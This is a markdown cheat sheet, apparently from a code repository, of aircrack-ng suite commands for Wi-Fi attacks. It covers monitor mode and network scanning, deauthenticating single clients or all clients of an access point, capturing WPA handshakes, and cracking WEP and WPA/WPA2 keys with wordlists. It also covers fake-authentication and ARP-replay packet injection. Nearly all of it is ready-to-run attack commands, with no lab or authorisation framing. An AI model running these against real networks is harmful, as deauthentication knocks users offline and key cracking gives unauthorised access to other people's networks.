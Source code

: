 #### Set Interface to Monitor Mode
**Enables `monitor mode` on interface wlan0**
```
airmon-ng start wlan0
```

**Stops `monitor mode` and return the interface to managed mode**
```
airmon-ng stop wlan0mon
```

#### Scan Wireless Networks
**Scans for wireless networks and displays BSSID, channel, encryption, and connected clients**
```
airodump-ng wlan0mon
```

#### Capture Packets from a Specific Network
```
airodump-ng -bssid <BSSID> -c <channel> -w <file> wlan0mon
```

#### Deauthenticate a Client (Capture Handshake)
**Sends `deauth packets` to force a client to reconnect, triggering a `4-way handshake`**
```
aireplay-ng --deauth 10 -a <AP_BSSID> -c <CLIENT_MAC) wlan0mon
```

**Sends `continuous deauth` packets to all clients of the AP**
```
aireplay-ng --deauth 0 -a <AP_BSSID> wlan0mon
```

---
### Crack WEP Key
**Cracks WEP keys using captured packets**
```
aircrack-ng -b <BSSID> -w <wordlist> <capturefile>.cap
```

### Crack WPA/WPA2 Key
**Cracks WPA/WPA2 using a `dictionary attack` on the handshake file**
```
aircrack-ng -w <WORDLIST> -b <BSSID> <handshake>.cap
```

### Packet Injection (Fake Authentication/ARP Replay)
**Fake authentication with AP (required for some WEP attacks)**
```
aireplay-ng -1 0 -a <BSSID> -h <YOUR_MAC> wlan0mon
```

**`ARP request replay` attack (for WEP), increases packet capture speed**
```
aireplay-ng -3 -b <BSSID> -h <YOUR_MAC> wlan0mon
```

### Verify Packet Injection
**Tests if injection is working on your wireless card**
```
aireplay-ng -9 wlan0mon
```